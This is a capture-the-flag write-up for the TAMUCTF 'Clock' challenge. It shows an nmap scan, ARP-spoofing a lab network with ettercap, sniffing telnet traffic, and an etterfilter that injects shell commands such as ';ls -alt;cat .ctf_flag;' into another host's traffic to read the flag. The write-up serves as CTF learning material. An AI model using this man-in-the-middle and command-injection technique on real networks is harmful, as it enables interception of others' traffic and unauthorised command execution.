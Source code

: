 # TAMUCTF Clock (Network/Pentest) Write-Up

### Jump straight in

    nmap 172.30.0.0/28
    
	Starting Nmap 7.70 ( https://nmap.org ) at 2019-03-03 21:24 CST
	Nmap scan report for 172.30.0.2
	Host is up (0.087s latency).
	Not shown: 999 closed ports
	PORT   STATE SERVICE
	23/tcp open  telnet
	MAC Address: 02:42:16:55:5A:3B (Unknown)

	Nmap scan report for 172.30.0.3
	Host is up (0.087s latency).
	All 1000 scanned ports on 172.30.0.3 are closed
	MAC Address: 02:42:CF:07:5C:FF (Unknown)

	Nmap scan report for 172.30.0.14
	Host is up (0.0000060s latency).
	All 1000 scanned ports on 172.30.0.14 are closed

	Nmap done: 16 IP addresses (3 hosts up) scanned in 7.01 seconds


2. We telnet open and we also see 2 hosts online. `172.30.0.2 and 172.30.0.3`. Taking knowledge from the previous challenges we will now initiate an ARP spoofing ettercap.

	**Arp Spoofing**

	Lets crack open Ettercap

		ettercap -G 				Opens etter in graphical mode

	First we gotta tell ettercap what it’s doing open.

		Sniff > Unified Sniffing > tap0 > OK
		
		This is telling ettercap to sniff the unified network tap0 which is going to set out interface to the VPN we connected to for the challenges

	Next we need to tell ettercap where the hosts are. Or actually let it find them itself. 

		Hosts > Scan for hosts

	Done. It now knows who’s online

	Now we need to actually specify the mode of the ettercap man in the middle attack. 

		Mitm > Arp Poisioning > Sniff remote connections (leave Only poision one way OFF) > OK
		
		This is setting the Mitm mode to ARP spoofing.  


3. Now we shall slide on over to wireshark and view the traffic we are stealing. 

	We some interesting things. One of with is the telnet login, but funny enough we will never directly telnet to this box. 
	We also can see that there is a challenge thingy and that the box `172.30.0.3` seems to solve it automatically. My first thought was that we can get `172.30.0.3` to solve the challenge we get from our login but that was a bad idea. Finally discovered etterfilters with a little nudge and started to write one that would drop the letter `t` from the command it’s running `date` and inject `;ls -la;` with the semi-colons there to terminate the commands before and after

	Important Note: We chose to drop the letter t from date because it's the only letter in that command that is not applicable in hex. If we had chosen any other letter we would've corrupted the challenge and thus gotten an incorrect response and not allowed access into the box. 

4. As for the actual etterfilter…

		if (ip.dst == '172.30.0.2'){
			msg("Found packet. Now editing");
			replace("t", ";ls -alt;");
		}

	and now to run this we first need to compile. I named this script `clocketter` so my compile command was

		etterfilter clocketter

	at least for Kali Linux.

	Now we can venture on over to ettercap and give it the filter.

		Filters > Load a filter... > Select etterfilter.ef > OK

	You’ll know It’s working if you included a msg to tell you it’s working. Mine started dumping in `Found packet. Now editing` so I was hopeful I was about to see list of files. Wireshark dumped back…

		-bash: exi: command not found
		total 28
		-rw------- 1 alice alice 7888 Mar  4 03:34 .bash_history
		drwxr-xr-x 1 alice alice   41 Mar  3 20:36 .
		drwx------ 2 alice alice   34 Mar  3 20:36 .cache
		-rw------- 1 root  root    53 Feb 22 13:21 .naumotp_secret
		-rw-r--r-- 1 root  root    40 Feb 22 13:21 .ctf_flag
		drwxr-xr-x 1 root  root    19 Feb 22 13:21 ..
		-rw-r--r-- 1 alice alice  655 May 16  2017 .profile
		-rw-r--r-- 1 alice alice  220 Aug 31  2015 .bash_logout
		-rw-r--r-- 1 alice alice 3771 Aug 31  2015 .bashrc

	and thus I extended my etterfilter to be

		if (ip.dst == '172.30.0.2'){
			msg("Found packet. Now editing");
			replace("t", ";ls -alt;cat .ctf_flag;");
		}

	which dumped out

		-bash: exi: command not found
		total 28
		-rw------- 1 alice alice 7888 Mar  4 03:34 .bash_history
		drwxr-xr-x 1 alice alice   41 Mar  3 20:36 .
		drwx------ 2 alice alice   34 Mar  3 20:36 .cache
		-rw------- 1 root  root    53 Feb 22 13:21 .naumotp_secret
		-rw-r--r-- 1 root  root    40 Feb 22 13:21 .ctf_flag
		drwxr-xr-x 1 root  root    19 Feb 22 13:21 ..
		-rw-r--r-- 1 alice alice  655 May 16  2017 .profile
		-rw-r--r-- 1 alice alice  220 Aug 31  2015 .bash_logout
		-rw-r--r-- 1 alice alice 3771 Aug 31  2015 .bashrc
		gigem{a032b26061c96e00e2a0b9e991f11476}
		alice@f855819477fd:~$

	This was a relatively short challenge in the number of steps but figuring out etterfilters, finding this solution, and executing the hack was a long tedious process. 
